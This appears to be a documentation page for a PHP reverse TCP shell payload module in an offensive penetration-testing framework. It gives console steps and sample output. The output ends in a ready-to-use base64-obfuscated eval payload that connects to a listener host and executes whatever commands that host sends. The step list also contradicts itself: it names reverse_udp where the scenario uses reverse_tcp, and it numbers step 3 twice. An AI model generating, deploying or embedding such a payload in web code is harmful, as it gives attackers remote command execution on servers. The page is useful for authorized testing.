 ## Description

Module generates payload that creates interactive tcp reverse shell by using php. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/php/reverse_udp`
  3. Do: `set lhost 192.168.1.4`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates php tcp reverse shell payload

## Scenarios

```
rsf > use payloads/php/reverse_tcp
rsf (PHP Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (PHP Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (PHP Reverse TCP) > run
[*] Running module...
[*] Generating payload
eval(base64_decode('JHM9ZnNvY2tvcGVuKCJ0Y3A6Ly8xOTIuMTY4LjEuNCIsNDMyMSk7d2hpbGUoIWZlb2YoJHMpKXtleGVjKGZnZXRzKCRzKSwkbyk7JG89aW1wbG9kZSgiXG4iLCRvKTskby49IlxuIjtmcHV0cygkcywkbyk7fQ=='));
```
